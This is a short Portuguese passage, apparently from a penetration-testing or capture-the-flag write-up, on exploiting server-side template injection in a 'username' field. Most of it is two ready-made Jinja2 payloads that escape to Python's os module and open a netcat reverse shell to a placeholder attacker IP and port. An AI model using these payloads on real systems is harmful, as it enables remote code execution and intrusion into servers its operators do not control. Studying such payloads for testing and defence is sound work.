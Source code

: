 
Aqui assumiremos que o parâmetro `username` é vulnerável a `SSTI`, como não podemos executar comandos no host deliberadamente, podemos usar as classes builtin e subclasses para conseguirmos usar métodos que permitem execução de código.

```json
{
	"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc [IP] [PORT] >/tmp/f').read() }}"
}
```

```json
{
	"username":"{{ request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc [IP] [PORT] >/tmp/f').read() }}"
}

```